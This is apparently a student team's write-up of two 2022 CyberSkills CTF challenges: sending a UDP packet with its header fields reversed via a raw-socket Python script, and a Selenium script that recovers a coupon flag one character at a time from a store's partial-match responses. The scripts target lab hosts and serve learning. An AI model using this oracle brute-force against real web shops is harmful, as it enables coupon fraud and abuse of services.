





## Cyberskills chambionships 2022

The CyberSkills chambionships were a ctf hosted by CyberSkills amongst 21 danish gymnasium teams.

Our team consisted of 5 people.

### Confused UDP

The challange was worth 25 points and the description is as following

```  
We made a UDP server that gives out free flags!  
However, the intern in charge of developing the  
server accidentally reversed the order of the  
UDP header fields.  

Get your free flag by sending the message “flag”  
via UDP to our server at confused-udp.hkn:1234.  

(Don’t worry about the checksum; we don’t verify  
those.)  

[header-format](https://nextcloud.ntp-event.dk:8443/s/GKo5SnbEEcFK7oD/download/confused-udp.txt)  
```  

Looking at the attached file we see the following contents

```

                  0      7 8     15 16    23 24    31  
                 +--------+--------+--------+--------+ 
                 |                 |                 | 
                 |    Checksum     |     Length      | 
                 +--------+--------+--------+--------+ 
                 |   Destination   |     Source      | 
                 |      Port       |      Port       | 
                 +--------+--------+--------+--------+ 
                 |                                     
                 |          data octets ...            
                 +---------------- ...                 

```

It describes the way a UDP packet is setup, sending checksum, length, dest port and at last the source port. The goal for the challange is to send those in a reversed order: source, dest, length and at last checksum.

The checksum does not need to be valid during the request.

To solve the problem we used the following python script with the socket module 

```py

import socket
import struct
import pprint

def udp_send(data, dest_addr, src_addr=('127.0.0.1', 35869)):
    #Generate pseudo header
    src_ip, dest_ip = ip2int(src_addr[0]), ip2int(dest_addr[0])
    src_ip = struct.pack('!4B', *src_ip)
    dest_ip = struct.pack('!4B', *dest_ip)

    zero = 0

    protocol = socket.IPPROTO_UDP 

    #Check the type of data
    try:
        data = data.encode()
    except AttributeError:
        pass

    src_port = src_addr[1]
    dest_port = dest_addr[1]

    data_len = len(data)
    
    udp_length = 8 + data_len

    checksum = 0
    pseudo_header = struct.pack('!BBH', zero, protocol, udp_length)
    pseudo_header = src_ip + dest_ip + pseudo_header
    udp_header = struct.pack('!4H', checksum, udp_length, dest_port, src_port)
    with socket.socket(socket.AF_INET, socket.SOCK_RAW, socket.IPPROTO_UDP) as s:
        s.sendto(udp_header + data, dest_addr)

def ip2int(ip_addr):
    if ip_addr == 'localhost':
        ip_addr = '127.0.0.1'
    return [int(x) for x in ip_addr.split('.')]

if __name__ == '__main__':
    ##              Dest                     Source
    udp_send("flag",("77.100.241.100", 1234), ("77.100.241.4", 1234))

```

Executing the script with root privilages lead to the following packet capture, here we are filtereing by the desitnation ip so we can remove all the noise genereated by the server, the challange was done on the web version of haaukins as wiregaurd will encrypt your packet so we are unable to read the response.



Looking at the reciveing packet from the server we get the flag.




### Leaky cupon responses

This challage was also worth 25 points and the description of the challange was:

```

Sometimes cupon codes follows a pattern, is this 
the case on aubergine.hkn, the flag is the cupon

```

When we first access the website linked we see a typical webstore



After getting used to the webpages layout we navigated to the checkout area where we had access to the feild to submit a cupn


Trying to submit a random string of charecters we get this response



If we on the other hand try something like `HKN` as that is the flag format we get a partial match, the way it works is that it checks if the cupon starts with the submitted cupon, we can use this together with a python script to get the key



Using selenium we setup an automated process to run though all the combinations untill we found the correct flag.

```py

from selenium import webdriver
from selenium.webdriver.common.keys import Keys
import time

browser = webdriver.Firefox()
browser.get('http://aubergine.hkn/cart')

letters = list("}-ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz1234567890")
currentCupon = "HKN{"

time.sleep(5)

doLoop = True
while doLoop:
        for ltr in letters:
                el = browser.find_element("xpath", "/html/body/section/div/div[2]/form[2]/div/input")
                print(f"Testing {currentCupon + ltr}...")
                el.send_keys(currentCupon + ltr)
                time.sleep(.5)
                el.send_keys(Keys.ENTER)
                time.sleep(1.5)

                text = browser.find_element("xpath", "/html/body/section/div/div[2]/div")
                if text.text == "Partial match on cupon" and ltr == "}":
                        doLoop = False
                        break
                elif text.text == "Partial match on cupon":
                        currentCupon += ltr
                        print(f"FOUND MATHC!, updated to {currentCupon}")
                        break

```

This would resolve the flag in about 20 minutes.
